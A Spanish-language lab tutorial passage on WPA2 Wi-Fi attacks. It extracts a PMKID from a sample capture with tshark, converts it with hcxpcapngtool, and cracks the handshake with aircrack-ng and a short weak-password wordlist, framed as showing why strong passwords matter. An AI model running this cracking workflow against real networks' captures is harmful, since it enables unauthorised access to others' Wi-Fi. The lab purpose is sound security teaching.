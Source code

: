 ### Paso 3: Extraer PMKID (si existe)

```bash
# El PMKID está en el tag 221 (Vendor Specific) del RSN IE
tshark -r wifi_lab/pcaps/wpa2/wpa_induction.pcap -Y "wlan.tag.number == 221" -x
```

### Paso 4: Conversión a Formato Hashcat

```bash
# Usando hcxtools (si está instalado)
hcxpcapngtool -o wifi_lab/outputs/pmkid.22000 wifi_lab/pcaps/wpa2/wpa_induction.pcap 2>/dev/null

# Ver hash generado
if [ -f wifi_lab/outputs/pmkid.22000 ]; then
    echo "[+] PMKID extraído:"
    cat wifi_lab/outputs/pmkid.22000
else
    echo "[!] No se encontró PMKID en este PCAP"
    echo "    Nota: No todos los PCAPs contienen PMKID"
fi
```

### Paso 5: Simulación de Cracking (Educativo)

```bash
# Crear wordlist extendida
cat > wifi_lab/outputs/extended_wordlist.txt << EOF
password
123456
12345678
qwerty
abc123
password123
welcome
admin
letmein
monkey
dragon
Coherer
coherer
COHERER
Coherer123
Coherer2024
WPA2password
MyWiFiPass
SecureNet
NetworkKey
EOF

# Intentar cracking del handshake con aircrack-ng
echo "[+] Intentando cracking con aircrack-ng..."
aircrack-ng -w wifi_lab/outputs/extended_wordlist.txt wifi_lab/pcaps/wpa2/wpa_induction.pcap

echo ""
echo "[!] Nota educativa:"
echo "    Este ejercicio es para demostrar por qué usar contraseñas seguras"
echo "    Contraseñas débiles pueden crackearse en minutos/horas"
echo "    Recomendación: WPA2/WPA3 con contraseñas >12 caracteres aleatorios"
```
